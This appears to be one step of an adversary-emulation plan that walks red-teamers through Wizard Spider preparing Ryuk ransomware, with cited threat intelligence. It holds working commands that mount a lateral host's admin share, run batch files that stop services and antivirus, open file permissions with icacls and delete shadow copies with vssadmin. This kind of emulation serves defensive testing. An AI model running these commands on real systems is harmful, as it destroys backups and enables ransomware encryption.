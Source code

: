 <br>

## Test 5 (Step 9)

### Step 9 - Ryuk Inhibit System Recovery

:microphone: `Voice Track:`

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---

### :biohazard: Procedures

In the CMD session, mount share so Ryuk can encrypt lateral drives:

```
net use Z: \\10.0.0.8\C$
```

```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]

copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```
[Source Code](kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]

copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```
[Source Code](window.bat)

### :microscope: Cited Intelligence

* https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf
